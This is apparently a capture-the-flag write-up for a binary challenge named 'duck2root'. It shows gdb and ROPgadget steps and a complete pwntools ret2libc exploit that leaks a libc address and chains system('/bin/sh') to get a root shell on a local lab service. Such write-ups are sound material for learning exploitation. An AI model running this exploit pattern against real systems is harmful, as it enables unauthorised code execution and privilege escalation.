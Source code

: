 we still don't have a shell, so something is missing
run the script once again, it will open a gdb window, `disassemble do_stuff`, (grab address of ret instruction), `b *0x400770`, `c`, `c`, `si`, verify that we have our /bin/sh on the stack, `si`, `si`, verify that rdi is the actual address of libc, it still gives an error and it is segmentation faulting because the libc is using our system linker (the exploit works)

doesn't work because its stack alligned

`ROPgadget --binary vuln | grep -i ": ret"` (search for any ret instruction), 
`0x000000000040052e : ret`, we will use 0x40052e

FINALLY WORKING EXPLOIT (depois de muitas iterações, perguntas e dúvidas)
```python
#!/usr/bin/env python3

from pwn import * 

exe = process('./duck2root_patched')
p = remote("localhost", 5001)

pop_rdi = 0x40126d
printf_at_got = 0x404018
puts_at_plt = 0x401030
ret_to_vuln = 0x401272

payload = b"A"*72
payload += p64(pop_rdi) # pop rdi; ret
payload += p64(printf_at_got) # printf got
payload += p64(puts_at_plt) # puts plt
payload += p64(ret_to_vuln) # return to ask 

p.sendlineafter("Patonymous?>\n",payload) # send payload

leak = u64(p.recvline().strip().ljust(8, b"\x00")) # leaked address

log.info(f"Leaked printf address: {hex(leak)}")

printf_offset = 0x606f0

base_address = leak - printf_offset # calculate base address libc
log.info(f"Leaked libc base address: {hex(base_address)}")
input()
libc_binsh = 0x1d8678 # offset /bin/sh
libc_system = 0x0000000000050d70 # offset system
log.info(f"Leaked libc system address: {hex(base_address + libc_system)}")

# second ROPchain (payload), now that its waiting to receive input

payload2 = b"A" * 72
payload2 += p64(pop_rdi)
payload2 += p64(base_address + libc_binsh) # libc -> /bin/sh > strings -a -t x ./libc.so.6 | grep "/bin/sh"
payload2 += p64(0x000000000040101a) # ret > ROPgadget --bin binary | grep ret
payload2 += p64(base_address + libc_system) # libc -> system
p.sendlineafter("Patonymous?>\n", payload2) # >;) - delivery payload

p.interactive()
```

![[Pasted image 20240905163804.png]]QUACK{R3t2l1bc_1s_t00_3a5y_t0_3xpl01t}

And ofc I had to leave a message as root to :)
![[Pasted image 20240905165621.png]]